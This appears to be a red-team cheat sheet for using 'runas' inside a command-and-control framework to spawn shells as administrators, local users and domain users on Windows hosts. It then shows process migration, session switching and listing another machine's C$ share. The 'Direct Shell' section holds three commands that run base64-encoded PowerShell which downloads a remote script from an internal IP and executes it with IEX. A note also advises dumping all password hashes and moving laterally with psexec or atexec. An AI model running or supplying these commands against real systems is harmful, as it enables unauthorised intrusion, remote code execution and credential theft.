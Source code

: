 # Runas

## Injection

### 1) Do a runas to get another shell as the local administrator
    
    runas -d . -u Administrator -P 'password' -n -p C:\\windows\\SysWOW64\\notepad.exe
    runas -d . -u Administrator -P 'password' -n -p C:\\Windows\\System32\\cmd.exe


### 2) As another user

    runas -d . -u userooo -P 'Password123@' -n -p C:\\Windows\\System32\\cmd.exe


### 3) Runas a domain user
    
    runas -d domain.com -u user -P 'Password123!' -n -p C:\\windows\\SysWOW64\\notepad.exe
    runas -d domain.com -u user -P 'Password123!' -n -p C:\\Windows\\System32\\cmd.exe


### 4) Find process

    ps -e notepad


### 5) Migrate into the process

    migrate -p 11216


### 6) Use the new session

    use c4578a6f

### 7) List the C$ 

    ls //machine02.domain.com/c$

## Direct Shell

Sometimes the local user won't work, if that's the case and you have the local admin's password, just run nxc or secretsdump to dump all hashes and psexec/atexec as the user.

### 1) Domain User
    
    runas -d domain.com -u user -P password -n -p "C:\Windows\System32\cmd.exe" -a "/c powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=="


### 2) Local Admin
    
    runas -d . -u Administrator -P 'password'-n -p "C:\Windows\System32\cmd.exe" -a "/c powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=="


### 3) Local User

    runas -d . -u userooo -P 'Password123@' -n -p "C:\Windows\System32\cmd.exe" -a "/c powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=="
